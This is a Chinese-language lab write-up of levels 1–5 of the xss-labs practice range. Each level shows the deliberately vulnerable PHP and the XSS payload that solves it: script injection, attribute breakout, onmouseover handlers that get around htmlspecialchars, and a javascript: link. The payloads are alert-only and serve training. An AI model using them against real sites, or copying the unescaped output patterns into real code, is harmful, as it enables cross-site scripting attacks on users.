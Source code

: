 ```yaml
---
{"dg-publish":true,"title":"自建环境_xss-labs","dg-path":"安全/靶场/自建环境_xss-labs.md","permalink":"/安全/靶场/自建环境_xss-labs/","dgPassFrontmatter":true}
---
```



# Level 1



函数源代码：
```php
<?php
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```

这一关没有什么过滤，它会将我们的name值在网页中输出，所以我们尝试注入：
```php
<script>alert(1)</script>
```



# Level 2

![Pasted image 20240826195628.png](/img/user/picture/Pasted%20image%2020240826195628.png)
先构造一个测试payload：
```html
'';!--"<XSS>=&{()}
```

ctrl+u查看源码：
![Pasted image 20240826195751.png](/img/user/picture/Pasted%20image%2020240826195751.png)

**发现标题双引号、尖括号、&符号被进行了转义**
而下面的输入框却没有过滤

函数源代码
```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
```

> [!NOTE] 注意
> `htmlspecialchars($str)` 是 PHP 中用来将字符串中的特殊字符转换为 HTML 实体的函数。
> - `&` 转换为 `&amp;`
>- `<` 转换为 `&lt;`
>- `>` 转换为 `&gt;`
>- `"` 转换为 `&quot;`
>- `'` 转换为 `&#039;`（这是在双引号内使用时）

所以我们可以尝试将输入框中的内容进行闭合
```html
"><script>alert(111)</script>"<
```


# Level 3(绕过htmlspecials()函数)

![Pasted image 20240826200044.png](/img/user/picture/Pasted%20image%2020240826200044.png)

依旧用测试payload看一下
```html
'';!--"<XSS>=&{()}
```
![Pasted image 20240826200114.png](/img/user/picture/Pasted%20image%2020240826200114.png)
完啦，现在输入框中的内容也被进行了转义

源代码：
```php
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
```

由于htmlspecialchars默认配置是**不过滤单引号**的，于是想到构造单引号的payload。

```html
'onmouseover='alert(1)
```
移动鼠标到输入框触发onmouseover事件，过关！


# Level 4
![Pasted image 20240826201105.png](/img/user/picture/Pasted%20image%2020240826201105.png)
先用测试代码看一下
```
'';!--"<XSS>=&{()}
```
![Pasted image 20240826201130.png](/img/user/picture/Pasted%20image%2020240826201130.png)
发现下面输入框过滤了我们的尖括号`<>`
所以我们可以调整一下第三题的payload，并且闭合双引号

```
"onmouseover='alert(1)'
```

# Level 5(绕过检测<script和on事件)
![Pasted image 20240826201331.png](/img/user/picture/Pasted%20image%2020240826201331.png)
测试payload看一下：
```
'';!--"<XSS>=&{()}
```

![Pasted image 20240826201442.png](/img/user/picture/Pasted%20image%2020240826201442.png)
发现好像啥也没少
用之前的payload测试一下：
`"><script>alert("xss");</script>`
![Pasted image 20240826201714.png](/img/user/picture/Pasted%20image%2020240826201714.png)
```
"onmouseover='alert(1)'
```
![Pasted image 20240826201759.png](/img/user/picture/Pasted%20image%2020240826201759.png)
这一题可以用`javascript`伪协议来实现
payload:
```
"><a href="javascript:alert(`xss`);">xss</a>
```


